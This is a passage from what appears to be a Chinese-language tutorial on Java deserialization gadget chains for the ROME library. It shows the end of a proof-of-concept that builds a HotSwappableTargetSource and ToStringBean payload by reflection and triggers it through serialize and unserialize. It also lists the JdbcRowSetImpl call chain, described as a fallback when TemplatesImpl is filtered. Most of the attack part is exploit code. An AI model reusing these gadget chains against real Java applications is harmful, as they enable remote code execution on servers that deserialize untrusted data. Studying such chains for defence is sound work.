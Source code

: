 ```java
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(xString);
//        hotSwappableTargetSource.equals(hotSwappableTargetSource_InputObj);
        LinkedHashSet linkedHashSet = new LinkedHashSet();
        linkedHashSet.add(hotSwappableTargetSource_InputObj);
        linkedHashSet.add(hotSwappableTargetSource);
        Field toStringBean_objField = ToStringBean.class.getDeclaredField("_obj");
        toStringBean_objField.setAccessible(true);
        toStringBean_objField.set(toStringBean, templatesClass);
        serialize(linkedHashSet);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```



### JdbcRowSetImpl链

利用链：

```java
HashMap<K,V>.readObject(ObjectInputStream)
HashMap<K,V>.hash(Object)
ObjectBean.hashCode()
EqualsBean.hashCode()                  
EqualsBean.beanHashCode()
ToStringBean.toString()
ToStringBean.toString(String)
JdbcRowSetImpl.getDatabaseMetaData
BaseRowSet.getDataSourceName
```

适用于过滤了TemplatesImpl的情况

JdbcRowSetImpl.getDatabaseMetaData调用了connect

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240924154311815.png)
